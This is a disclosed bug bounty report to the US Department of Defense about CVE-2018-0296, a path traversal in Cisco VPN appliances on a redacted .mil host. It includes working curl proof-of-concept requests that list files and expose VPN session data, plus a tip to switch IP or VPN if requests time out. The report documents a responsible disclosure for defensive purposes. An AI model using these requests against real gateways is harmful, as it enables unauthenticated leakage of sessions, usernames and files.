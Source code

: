 # [CVE-2018-0296] Cisco VPN path traversal on the https://███████/ (████.███.mil)

## Report Details
- **Report ID**: 695429
- **URL**: https://hackerone.com/reports/695429
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-09-16T08:36:11.134Z
- **Disclosed**: 2024-06-18T17:06:48.158Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
I discovered previously unidentified instance https://█████████ (████.██████.mil) in █████████ network, vulnerable to the CVE-2018-0296 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-0296)


##POC
```
curl -i -k "https://████/+CSCOU+/../+CSCOE+/files/file_list.json" --path-as-is
```
█████████

We can disclose user sessions by quering /sessions:
```
curl -i -k "https://█████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```


##Suggested fix
Updating to the latest version should fix the issue. Fixed version should give 404 "File not found" error.
Example of patched version:
```
curl -i -k "https://█████████.██████/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions" --path-as-is
```

##Notes
In case you experience request timeout when reproducing, try to change your IP/VPN.

## Impact

Path traversal, which can allow the unauthenticated attacker disclose sensitive information such as VPN sessions, files, usernames. Under some conditions it's possible to cause DOS attacks

## Attachments
No attachments
